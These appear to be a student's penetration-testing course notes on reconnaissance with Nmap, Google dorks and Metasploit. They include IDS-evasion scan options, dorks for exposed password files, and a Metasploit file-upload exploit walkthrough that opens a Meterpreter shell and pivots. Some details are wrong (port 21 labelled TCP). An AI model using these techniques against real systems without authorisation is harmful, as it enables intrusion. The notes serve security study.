







# Chapter 1 - Assessment Methodologies Information Gathering

The first chapter explains Passive and Active Information Gathering.

## Types of gathering information
<li>Passive Gathering: Access to public information, either with browser (user experience) or general tools</li>
<li>Active Gathering: Gain insights on informations without using publicly available tools or methods (for example using bruteforce)</li>

## Passive Gathering Methods & Tools

<li>"website url"/robots.txt: file that may show informations</li>
<li>Command: host "website url": gain ip and other info</li>
<li>Command: whois "website url or ip": gain informations</li>
<li>Command: whatweb "website url": get info about server, ip, etc</li>
<li>HttTrack: download the website to analyze it's source code</li>
<li>NetCraft: gain informations like emails, operating system, technologies..</li>

### DNS recon

<li>DNSRecon: tool used to gain informations like email server, technologies, ips..</li>
You can use it with dnsrecon -d "website url"
<li>DNSDumpster: web tool to analyze a website and gain insights.</li>

### Firewall recon

<li>Wafw00f: a tool (you can find it on GitHub) to gain insights about the firewall of a website.</li>

### Subdomain enumeration 

<li>Sublist3r: a passive-gathering tool that gains access to the subdomains of a website. It will find every publicly available domains using search engines (like Google, etc).</li>
sublister -d "website url" -e "search engine(s)"
<li>Google Dorks: some google commands to find informations of a specific target.</li>
You can limit the Google search by targeting a specific website or url.
<br><br>
This will search for everything that starts with your search, thus searching for subdomains too.
<br>
<li>site:"browser search"  (example: site:ine.com will search for every url that has ine.com, like ine.com/blog etc)</li>

<br>
You can add the inurl to search for a specific argument inside the url.
<br>
<li>site:ine.com inurl:admin (this will search for every url that starts with ine.com and contains admin)</li>

<br>
You can search everything that ends with the url.
<br>
<li>site:*.ine.com (this will search for every url that finishes with ine.com, like courses.ine.com)</li>

<br>
You can use the intitle to search for a title.
<br>
<li>site:*.ine.com intitle:admin</li>

<br>
You can search by file types as well using filetype.
<li>site:*.ine.com filetype:pdf</li>

<br>
You can finish your "google query" with another search without commands
<li>site:ine.com courses</li>

<br>
Some easy methods to try to find some vulnerabilities such as websites that have shown passwords by error.
<li>inurl:auth_user_file.txt</li> 
<li>inurl:password.txt</li>

<br>
You can find many available Passive Gathering Google Dorks here:
<li>Google Hacking Database (exploit-db.com)</li>

### Website timemachine

You can see how a website looked years ago with the WayBack Machine (web.archive.org)

<br>

### Email Harvesting

TheHarvester is a tool for email enumerating.
<br>
This tool has both Passive and Active Gathering methods to search for vulnerable emails.
<li>theHarvester -d "website url" -b "google, linkedin" (-b is to search for a particular website platform)</li>

<br>

### Leaked Password Databases

There are different websites that allows to check if a password has been leaked from different websites.
<br>
Some of them are:
<li>haveibeenpwned.com</li>

<br>

## Active Gathering Methods and Tools

### DNS Zone Transfer

DNS (Domain Name System) is a protocol to resolve website names to ip addresses.
<li>dnsenum is a tool for active gathering, enumerating subdomains, providers, servers, files, etc</li>
<li>dig is another tool for active gathering</li>
<li>fierce is another tool, that can also enable brute force to find subdomains</li>

### Host Discovery with Nmap

Nmap is a tool for port-scanning and active information gathering. 
<br>
You can use it to search for subdomains of a website.
<br>
(Alternatively you can use Netdiscover, that does the same but using an ARP method instead)
<br>
<li>sudo nmap -sn "ip address": this command will show every ip address linked to a particolar ip</li>

### Port Scanning with Nmap

After you have discovered some ips of an host you can perform a port scanning, with Nmap tool.
<br>
To summarize, you can do:
<li>nmap "ip address": to scan the open ports of that ip (NB: if it's a Windows ip, sometimes you can use the nmap -Pn command instead)</li>
<li>nmap -p "port(s)" "ip address": optional to scan only certain port(s)</li>
<li>nmap -sV "ip address": scan the ports and their service version running</li>
<li>nmap -O "ip address": scan the operating system too</li>
<li>nmap -sC "ip address": scan more informations of the ports</li>
<li>nmap -T"number from 0 to 4" "ip address": scan faster or slower</li>
You can finish the command with -oN or -oX to save the results in a file (example a text) or a xml file.

### Gobuster

You can find a list of available urls with Gobuster.
<li>gobuster dir -u "website url" -w /usr/share/wordlists/dirb/common.txt</li>


### LAB 1

In the first lab we had to explore a website and gather informations. There were 5 "flags" to capture.


# Chapter 2 - Assessment Methodologies: Footprinting & Scanning

This course starts by showing a simple roadmap of Penetration Testing Methologies.


### Active Information Gathering

Phase were the tester actively interacts with the target system or network to collect data and it's done with methods beyond the passive gathering such as: scanning, probing and direct interaction.


### Network Fundamentals

Network Protocols ensure that different hosts (computer systems) can communicate with each other.
<br>
The communication between different hosts is done by exchanging packets.
<br>

**Packets** are stream of bits of electric signals used for data transmission (through ethernet, wifi, ecc).
<br>
Every packet has an header (the information about the protocol used and the data transferred) and a payload (the data).
<br>

**OSI (Open Systems Interconnection) Model** is a conceptual framework that standarizes the telecommunication functions into seven abstract layers.


### Network Layer

The Network Layer (3) is responsible for logical addressing, addressing and forwarding data packets between different devices
<br>
It's goal is to determine the optimal path to travel from the source to the destination on separate networks too. That's why it is so important and thus grants what today we call "internet".
<br>
Several protocols operate on the Network Layer:
<li>Internet Protocol (IP), like iPv4 and iPv6: grants the foundation of the internet</li>
<li>Internet Control Message Protocol (ICMP): used for error reporting and diagnostics (including ping, traceroute)</li>
<li>Dynamic Host Configuration Protocol (DHCP): dynamically assign IP address to devices on a network, simplyfing the process of network configuration.</li>


### Transport Layer

The transport layer facilitates communication between *two* different devices in different networks.
<br>
The two main protocols of the transport layer are:
<li>TCP (Transmission Control Protocol): connection protocol, provides reliable and ordered data</li>
<li>UDP (User Datagram Protocol): connectionless protocol, faster but less reliable</li>


**TCP** Protocol ensures a connection between two different devices (such as client and server) *before* the data is exchanged.
<br>
This means that both the devices know "who" the other is before starting the data exchange.
<br>
For example, when you open a website for an HTTP connection, a TCP connection is also created to ensure that the HTTP connection can work in a reliable way.
<br>
In TCP, data is delivered in the correct order and there is a mechanism to retransmit lost or damaged packets.


This ensures that the connection is reliable.
<br>
Before an HTTP request, the client sends a packet with a flag "syn" (Syncronized) to the server. It will answer with another packet with the "syn-ack" (Acknowledgement) flag. Lastly the client sends a packet with the flag "ack".
<br>
These packets have some important flags to ensure control: SYN - ACK - FIN (Finish), each one can be either "set" or "clear".

**TCP Port Protocols**
There are well-known ports for certain protocols, such as:
<li>80: HTTP</li>
<li>443: HTTPS</li>
<li>21: TCP</li>
<li>22: SSH</li>
<li>25: SMTP</li>
<li>110: POP3</li>

<br>
<br>

**UDP** Protocol is connectionless, meaning that no connection is created between the two devices and there isn't a persistent state mantained and there isn't a mechanism to retransmit lost or damaged packets too.
<br>
UDP is primarly used for streaming (like audio, video or gaming) or VoIP communication.


### Network Mapping

Network mapping is the active gathering process to find hosts, ip, and more information about the target.
<br>
Network mapping encapsulates different techniques of active gathering, with the goal of discovering how many hosts are in that network, their operating systems, ips, and so forth.
<br>
Here's a simple roadmap for Network Mapping:
<li>Discover active hosts in the network</li>
<li>Find open ports of the active hosts</li>
<li>Creating a map or diagram of the network including routers, switchers, firewalls, devices</li>
<li>Determine the Operating System of the discovered hosts</li>
<li>Detect the version of the services</li>
<li>Discover protectiong systems (firewall, etc)</li>

### Nmap

Nmap is a valid tool for Network Mapping.
<br>
Nmap excels in host discovery, using ICMP, ARP, TCP/UDP protocols.
<br>
It is one of the best port-scanners tools.
<br>
Nmap can determine the version of open ports and the operating systems.

### Host Discovery Techniques

Host Discovery is a phase of Network Mapping to discover live hosts on a target network.
<br>
The most popular techniques of host discovery are:
<li>Ping Sweeps (ICMP Echo Requests): sending a ping to a range of ip to see active ips</li>
<li>ARP Scanning: Using Address Resolution Protocol to identify hosts on a LOCAL network</li>
<li>TCP SYN Ping: Sending a TCP Syn packet to see if an host is active (if it answers with a TCP Syn Ack packet)</li>
<li>UDP Ping: sending a UDP packet</li>
<li>TCP ACK Ping: Sending a packet TCP ACK, if the host is active it may respond with a TCP RST (Reset) packet</li>
<li>Syn Ack Ping: Sending a packet TCP SYN ACK, similar as above</li>


### Ping Sweeps (ICMP)

Ping Sweep works by sending a ICMP packet (Type 8 - echo request) to a host.
<br>
If the target host replies with a ICMP echo reply (Type 0), then it's alive.
<br>
Sender: packet of type 8 and code 0 -- Receiver (if alive): packet of type 0 and code 0
<br>

#### Ping request:

```bash
ping -b -c 5 10.1.0.0
```

<li>-b = scan every port of the network (last digit should be 0)</li>
<li>-c 5 = send 5 pings</li>

```bash
fping -a -g 10.10.23.0/24
```

<li>fping = an improvement of ping that allows to send a ping for every port of an host</li>
<li>-a = show if the target is alive</li>
<li>-g = generate the targets list</li>

Other functionalities of fping:
<li>-S, --src=IP = send the ping from a different ip</li>


### Host Discovery with Nmap

General Nmap command line (certain Nmap scans require sudo):

```bash
nmap scanoption(s) target(s) [Optional --script]
```

Scan all ports of a network by sending TCP Null packets, without performing port-scans (-sn).
<br>
Please note that if you perform the scan on your local network, the packets sent will use the ARP protocol. You can finish the command with --send-ip to send ICMP packets.

```bash
nmap -sn 10.1.0.0/24
```

You can scan more than one IP by specifying them or using a file:

```bash
nmap -sn 10.1.0.1 10.4.0.3
nmap -sn -iL list_ips.txt
```

#### Send a TCP SYN Packet 

You can send a TCP Syn Packet (on port 80) with the -PS command.

```bash
nmap -sn -PS target-ip
```

You can specify the port or ports to send the TCP Syn packet:

```bash
nmap -sn -PS22 target-ip  # port 22 
nmap -sn -PS1-100 target-ip  # every port from 1 to 100
nmap -sn -PS1,10,100 target-ip  # specified 3 ports
nmap -sn -PS -p port target-ip  # specify the port to send the TCP Syn packet
```

#### Send a TCP ACK Packet

Some firewall or Windows System may block the normal ping, here a TCP ACK packet can avoid the issue.

```bash
nmap -sn -PA target-ip
```

#### ICMP ping scan

```bash
nmap -sn -PE target-ip
```

#### Increase/Reduce speed timing

You can increase or decrease the speed of scanning with the -T[number]

```bash
nmap -sn -T4 target-ip
```

#### UDP ping scan

You can add the -PU command to send UDP scan

```bash
nmap -sn -PU target-ip
```

### Port Scanning with Nmap

You can perform a port scanning without using the -sn, as the default command.
<br>
If not specified, Nmap will scan a thousand of the most common ports.

```bash
nmap target-ip
```

#### Skip Host Discovery

You can use the -Pn command to skip the host discovery phase (it won't send pings) and just scan the ports of that host.

```bash
nmap -Pn target-ip
```

#### Fast Scan

You can use the -F to scan an hundred of the most common ports for faster scans.

```bash
nmap -F target-ip
```

#### Port Scan

You can use the -p to scan a specific port.
<br>
You can specify different ports, too. You can use -p- to scan all the 65535 ports.

```bash
nmap -p port target-ip
nmap -p80, 445, 8080 target-ip
nmap -p- target-ip
```

#### Syn Scan (Stealth Scan)

If not specified, and if you have root privileges, Nmap will send the SYN Stealth packet, meaning:
<li>Nmap will send a TCP SYN (Syncronize - 1° handshake) packet to the target port</li>
<li>If the target responds with a SYN ACK (Syncronize, Acknowledge - 2° handshake) then that host/port is active, if it returns a RST (Reset, no handshake) packet it means it's close. If the target doesn't answer it may be that something blocks our (or its) packet.</li>
<li>If the target port is open, then Nmap sends a RST (Reset) packet back, to drop the connection</li>

<br>
If you don't have root privileges then you need to specify it with the -sS command.

```bash
nmap -sS target-ip
```

#### TCP Connect Scan

You can use the command -sT to complete the 3 handshake with a host/port. Nmap will send a TCP SYN packet and if the port answers with a TCP SYN ACK, then Nmap will send a RST ACK to complete the connection and close it.

```bash
nmap -sT target-ip
```

#### UDP Port Scan

You can send a UDP port scan with the -sU command.

```bash
nmap -sU target-ip
```

### Service Version and Operating System with Nmap

You can scan for the version of the device in the target host with -sV command.
<br>
This command will also show the Operating System used by the target.
<br>
You can specify the --version-intensity with a number from 0 to 9 to increase the analysis on the version of the devices.

```bash
nmap -sV target-ip
nmap -sV --version-intensity target-ip
```

You can show a more detailed version of the Operating System with the -O command.
<br>
You can also use the --osscan-guess command to force Nmap to be more precise and detailed about the Operating System of the target.

```bash
nmap -O target-ip
nmap -O --osscan-guess 9 target-ip
```

### Nmap Scripting Enginge (NSE)

This chapter shows how to use the Nmap script to increase its capabilities.
<br>
You can find the list of all the user-scripts created (Nmap is open-source!) with this command:

```bash
ls -al /usr/share/nmap/scripts
```

You can search for a specific script like this, using grep:

```bash
ls -al /usr/share/nmap/scripts | grep -e "http"
```

You can use the default script scan with the -sC command. This will use automatically the scripts for the scanning you are performing.

```bash
nmap -sC target-ip
```

If you want to know more informations about a script you can use:

```bash
nmap --script-help=scriptname 
```

Another powerful script to gain information on a port is the memcached-info script.

```bash
nmap --script=memcached target-ip
```

You can run all the script of a category with --script=category* as with this example:

```bash
nmap --script=ftp* target-ip
```

#### Scan OS, version, scripting and traceroute all-together

You can use the -A command to perform a scan of OS, version, scripting and traceroute all-together.

```bash
nmap -A target-ip
```

## Useful commands for pentesting

### Login with FTP

After you have discovered that the host has a ftp port, you may try to connect there with ftp:
<br>

```bash
ftp target-ip
```

It will ask username and password, and if successful you may enter the OS and operate with its (often limited) shell.

### Login with SSH

If you find a SSH port then you can try to connect with this command:

```bash
ssh username@target-ip
```

It will ask the password and then you can use it.

### Login with Mysql

You may find a Mysql port, you can try to connect with the following command:

```bash
 mysql -u username -p -h target-ip
```

It will ask the password, and if successful you can perform SQL operations and you may start from:

```bash
SHOW DATABASES;
```

### Firewall Detection & IDS Evasion with Nmap

How to use Nmap to discover firewall or intrusion detection systems. 
<br>
IDS are systems that can discover your identity and detect where your scan is coming from.
<br>

When you do a nmap port scan, sometimes you can receive a comment like: Not shown: X closed ports or you may receive a X filtered ports. In the second case it may mean that the Operating System of the target is Windows or that there is a firewall blocking your scan and pings.

#### Sending TCP ACK packets

You can send a TCP ACK packet with the -sA command.

```bash
nmap -sA target-ip
```

#### Sending fragmented packets

One technique for detect IDS is to send fragment packets, meaning to send smaller packets, with the -f command.
<br>
This will create 2 packets from each packet, with offsets 0 and 8 respectively. You can add the -mtu "dimension" command to create fragmented packets. Mtu stands for Maximum Transmission Unit in order to specify the maximum dimension (in bytes) of your packets.

```bash
nmap -f target-ip
nmap -f mtu dimension target-ip
```

#### Other techniques to avoid detection: Data-length, Decoy Port and Ipl,

You may use the --data-length "length" to change the lenght of the packets sent. 

```bash
nmap -f --data-length 200 target-ip
```

You can use the -g command to falsify the port from where you send the scan.

```bash
nmap -g fake-port target-ip
```

You can use the -D command to falsify your ip, to use a decoy and make your scans appear from a different ip (or ips).

```bash
nmap -D fake-ip(s) target-ip
```


### Optimizing Nmap Scans

Exploring different techniques to change the regular Nmap scans by improving or reducing the speed of the scan to reduce the chances of being detected.
<br>
You can change the speed of your scans with the -Tspeed command (from 0 to 5, the higher the faster).

```bash
nmap -T4 target-ip
```

Also you can use the --host-timeout command the change the timeout of the scan.

```bash
nmap --host-timeout 15s targe-ip
```

You can change the scan delay option in order to change the seconds of delay between each packet sent with the --scan-delay seconds

```bash
nmap --scan-delay 5 target-ip
```


### Nmap Output Formats

Saving your scan results for past analysis or using in other tools.
<br>
In Nmap there are different format available for saving: 
<li>-oN : normal output (text file)</li>
<li>-oX : XML, useful for Metasploit framework</li>
<li>-oG : Grepable format</li>
<li>-oA : Save them in the above 3 formats</li>
<li>-v : this can increase the description of your scan (you can use -vv for even more descriptions)</li>

Example: 

```bash
nmap target-ip -oX
```


## Conclusions

In this course we have discovered:
<li>The process of network mapping: host discovering, port scanning, service version..</li>
<li>Basic understanding of the OSI protocol</li>
<li>Using Nmap for host discovering, port scan and its different commands and scripts</li>
<li>Detect and evade firewalls fragmenting packets or using time-templates and speed up/down your Nmap scans</li>
<li>Saving the scan results into three different formats</li>


## Assessment Methodologies: Enumeration

### Introduction to Enumeration

After host discovery and port scanning, the next step is to perform enumeration.
<br>
Enumeration is to gain additional information on the target, such as account name, shares, eventually misconfigured service protocols and so on..

### Port Scanning and Enumeration with Nmap

You can use Nmap for enumeration, such as discover the operating system and the version of the target's ports.
<br>
You can export the results into a format readable by the Metasploit framework for further operations.
<br>
You can start by doing a regular host, port and version scan with Nmap:

```bash
nmap target-ip  # standard scanning
nmap -Pn target-ip  # our scan may be automatically blocked if the OS of the target is Windows, so we can use the -Pn command to avoid host scanning and just detect ports.
nmap -Pn -sV -O target-ip  # get the version of the services and operating systems of the ports
nmap -Pn -sV -O target-ip -oX output.xml  # save the results in a .xml file that will be used by Metasploit framework
```

### Importing Nmap results into MSF

In order to import the Nmap results into Metasploit framework you need to start PostegreSQL and the MSF console.

```bash
service postgresql start
msfconsole
```

You can check the connection of the database in the MSF console:

```bash
db_status
```

Now you can add a new MSF workspace:

```bash
workspace -a name
```

You can import the output file in MSF with this command:

```bash
db_import xmlfile-path
```

Then you can explore your output, like enumerate hosts, services and vulnerabilities:

```bash
hosts
services
vulns
```

You can perform Nmap scans directly in the MSF (without the need to save them since they will be automatically updated in your current MSF workspace):

```bash
db_nmap -Pn -sV -O target-ip
```

### Port Scanning with Auxiliary modules

Auxiliary modules are used for enumerating hosts, ports, network discovery and so on.
<br>
Auxiliary modules are useful when you have to perform information gathering on other hosts that you've found from the initial scan. You can enable Auxiliary modules to scan other targets directly from the first target of that network.
<br>
Here's a brief roadmap on how to do it:
<br>

**General Setup**

```bash
# Get the IP of the target
service postgresql start  # Start the PostgreSQL
msfconsole  # Start Metasploit framework 
workspace -a name  # Create a MSF workspace
```

**Use Auxiliary modules**

```bash
search portscan  # List every auxiliary modules about port scan
use auxiliary/scanner/portscan/tcp  # Use the Auxiliary module
show options  # Show options, in order to see if any value is missing
set RHOSTS target-ip  # Set the target ip(s)
run  # Execute the Auxiliary module
curl target-ip  # Print the html file of the target
```

After you have reached this point you can try to search (and use) some Auxiliary modules pertinent with the application of your target.
<br>
In this example, on the html file, the application title is called "Xoda".

```bash
search Xoda  # Search if there is an Auxiliary module about that application
use exploit/unix/webapp/xoda_file_upload  # Use the Auxiliary module about "Xoda"
show options  # Show the options in order to configure the scan of your target
set RHOSTS target-ip  # Set the ip of your target
set LHOST ip-target  # Ip of the network of the target (example if target is 192.168.1.3 you can use 192.168.1.2)
set TARGETURI /  # Set the url of the target (in this case it's in the root path, so a / )
exploit  # Run the exploitation on the target
```

In this example, the exploit has:
<li>Started the reverse tcp handler</li>
<li>Sent a Php Payload</li>
<li>Sending the stage</li>
<li>Open the Meterpreter session</li>

This will enable us to execute commands on the target operating system

```bash
sysinfo  # Get info about the target operating system
shell  # Create a bash session on the target
/bin/bash -i  # Create the bash session
ifconfig  # Show the ip configuration of the target network
```

Now you can add the new ip target to the meterpreter and your MSF workspace.

```bash
run autoroute -s new-target-ip  # (from meterpreter), add the new ip target to the Meterpreter
background  # Save this new target ip on your Metasploit workspace and return to the workspace
search portscan  # Search for Auxiliary modules about port scan again
use auxiliary/scanner/portscan/tcp  # Use the Auxiliary module
set RHOSTS new-target-ip  # Set the new target ip 
run  # Execute the Auxiliary module in order to perform port scan on the new target ip
```

You can perform other scans, for example UDP:

```bash
search udp_sweep  # Search for Auxiliary modules about UDP Scan
use auxiliary/scanner/discovery/udp_sweep  # Use the Auxiliary module
set RHOSTS new-target-ip  # Set the new ip target for the new scan
run  # Execute the Auxiliary module
```


### FTP Enumeration

We'll discover how to gain as much informations as possible regarding FTP.

#### What is FTP?

FTP (File Transfer Protocol) is a protocol that is typically hosted on port 21.
<br>
It facilitates file transfer between client(s) and server or directories of web server.
<br>
FTP enable authentication with username and password, meaning that it may be vulnerable to brute-force attacks.

#### Auxiliary Module for ftp version

Here's a summary of how to procede in order to use Metasploit framework with an Auxiliary module for ftp version scan:

```bash
# run postgresql and msfconsole and create a new workspace
search portscan  # To search for port scan Auxiliary protocols
use 5  # Use the TCP port scan
show options  
set RHOSTS target-ip  # Set the target ip
run  # Execute the Auxiliary protocol
search type:auxiliary ftp  # Search for Auxiliary ftp modules
use auxiliary/scanner/ftp/ftp_version  # Use the ftp scanner that also searches for version  
